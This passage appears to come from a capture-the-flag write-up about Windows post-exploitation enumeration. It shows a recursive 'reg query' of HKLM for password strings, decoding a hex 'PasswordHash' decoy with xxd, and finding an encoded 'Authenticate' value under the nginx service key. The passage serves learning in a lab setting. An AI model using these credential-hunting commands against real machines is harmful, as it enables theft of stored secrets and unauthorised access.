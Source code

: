 As I continued to enumerate, I decided to search the registry for
passwords. I'll use `reg query` to search the HKEY Local Machine (HKLM).
The
[docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)
show that `/f password` will search for the string, "password",
`/t REG_SZ` will specify to look at strings, and `/s` will have it
search recursively.

A few keys jump out at me:



    C:\Users\Nelson\Desktop>reg query HKLM /f password /t REG_SZ /s
    ...[snip]...
    HKEY_LOCAL_MACHINE\SOFTWARE\Classes\kdbxfile\shell\open
        (Default)    REG_SZ    &Open with KeePass Password Safe
    ...[snip]...
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\KeePassPasswordSafe2_is1
        Inno Setup: Icon Group    REG_SZ    KeePass Password Safe 2
        DisplayName    REG_SZ    KeePass Password Safe 2.40
    ...[snip]...
    HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\nginx
        PasswordHash    REG_SZ    336d72676e6333205361797a205472794861726465722e2e2e203b440a
    ...[snip]...
    HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services\nginx
        PasswordHash    REG_SZ    336d72676e6333205361797a205472794861726465722e2e2e203b440a
    ...[snip]...
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx
        PasswordHash    REG_SZ    336d72676e6333205361797a205472794861726465722e2e2e203b440a
    ...[snip]...
    End of search: 45 match(es) found.



First, I see the KeePass keys. I wasn't able to get anything out of them
now, but I'll look for config files for each new user I get access as.

Then there's the nginx service. It has a PasswordHash. But it doesn't
look like a hash to me. In fact, it looks like it's hex ascii. And it
is, a troll:



    root@kali# echo 336d72676e6333205361797a205472794861726465722e2e2e203b440a | xxd -p -r
    3mrgnc3 Sayz TryHarder... ;D



However, it's also a pointer to look closer. When I look at the key that
holds this value, I'll see there's also an "Authenticate" value:



    C:\>reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx
    reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx

    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx
        Type    REG_DWORD    0x10
        Start    REG_DWORD    0x2
        ErrorControl    REG_DWORD    0x1
        ImagePath    REG_EXPAND_SZ    C:\Program Files\nssm\win32\nssm.exe
        DisplayName    REG_SZ    Nginx
        ObjectName    REG_SZ    .\nginx
        Description    REG_SZ    Nginx web server and proxy.
        DelayedAutostart    REG_DWORD    0x0
        FailureActionsOnNonCrashFailures    REG_DWORD    0x1
        FailureActions    REG_BINARY    00000000000000000000000003000000140000000100000060EA00000100000060EA00000100000060EA0000
        Authenticate    REG_BINARY    4800370033004200700055005900320055007100390055002D005900750067007900740035004600590055006200590030002D0055003800370074003800370000000000
        PasswordHash    REG_SZ    336d72676e6333205361797a205472794861726465722e2e2e203b440a
